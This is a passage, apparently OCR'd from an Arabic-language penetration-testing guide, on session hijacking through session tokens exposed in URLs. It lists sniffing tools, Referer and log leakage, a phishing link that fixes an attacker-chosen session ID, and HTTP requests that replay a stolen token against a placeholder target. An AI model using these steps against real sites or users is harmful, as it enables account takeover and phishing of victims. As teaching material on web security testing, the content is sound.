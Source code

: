 #### 🛠️ الأدوات:
- BetterCAP
- Wireshark
- tcpdump
- Burp Repeater

#### 💡 شروط النجاح:
- التطبيق يستخدم HTTP وليس HTTPS
- لا يوجد Secure Flag على الكوكيز

---

# 🧪 Session Hijacking – المحاولة 3:	Session Token في الرابط (URL)

### 📌 الفكرة:
بعض التطبيقات تضع Session ID في URL مثل:
```
https://target.com/dashboard?sessionid=abc123xyz
```

### ⚙️ الخطوات:

#### ١. اكتشف وجود توكن في الرابط
- استخدم Burp Proxy وابحث عن `sessionid`, `token`, `sess` في URL.

#### ٢. راقب تسريب التوكن
- عبر Referer header:
```http
Referer: https://target.com/dashboard?sessionid=abc123xyz
```
- عبر Browser History أو Logs الخادم.

#### ٣. اجبر المستخدم على زيارة الرابط
- بإرسال رابط Phishing:
```html
<a href="https://target.com/login?sessionid=hacker_session">Click here to login</a>
```

#### ٤. استخدم التوكن المسروق
```http
GET /profile HTTP/1.1
Host: target.com
Cookie: sessionid=abc123xyz
```
أو مباشرة في الرابط:
```
https://target.com/profile?sessionid=abc123xyz
```

#### 🛠️ الأدوات:
- Burp Proxy
- Wireshark
- Phishing Email Tools
